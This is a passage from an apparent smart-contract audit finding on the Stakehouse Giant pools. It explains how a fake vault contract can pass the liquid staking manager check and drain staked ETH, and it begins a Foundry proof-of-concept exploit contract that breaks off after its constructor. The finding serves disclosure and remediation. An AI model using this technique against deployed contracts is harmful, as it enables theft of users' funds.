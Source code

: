 <https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/GiantSavETHVaultPool.sol#L50><br>
<https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/GiantMevAndFeesPool.sol#L44>

An attacker can withdraw all ETH staked by users in a Giant pool. Both `GiantSavETHVaultPool` and `GiantMevAndFeesPool` are affected.

### Proof of Concept

The `batchDepositETHForStaking` function in the Giant pools check whether a provided vault is authentic by validating its liquid staking manager contract and sends funds to the vault when the check passes ([GiantSavETHVaultPool.sol#L48-L58](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/GiantSavETHVaultPool.sol#L48-L58)):

```solidity
SavETHVault savETHPool = SavETHVault(_savETHVaults[i]);
require(
    liquidStakingDerivativeFactory.isLiquidStakingManager(address(savETHPool.liquidStakingManager())),
    "Invalid liquid staking manager"
);

// Deposit ETH for staking of BLS key
savETHPool.batchDepositETHForStaking{ value: transactionAmount }(
    _blsPublicKeys[i],
    _stakeAmounts[i]
);
```

An attacker can pass an exploit contract as a vault. The exploit contract will implement `liquidStakingManager` that will return a valid staking manager contract address to trick a Giant pool into sending ETH to the exploit contract:

```solidity
// test/foundry/GiantPools.t.sol
contract GiantPoolExploit {
    address immutable owner = msg.sender;
    address validStakingManager;

    constructor(address validStakingManager_) {
        validStakingManager = validStakingManager_;
    }

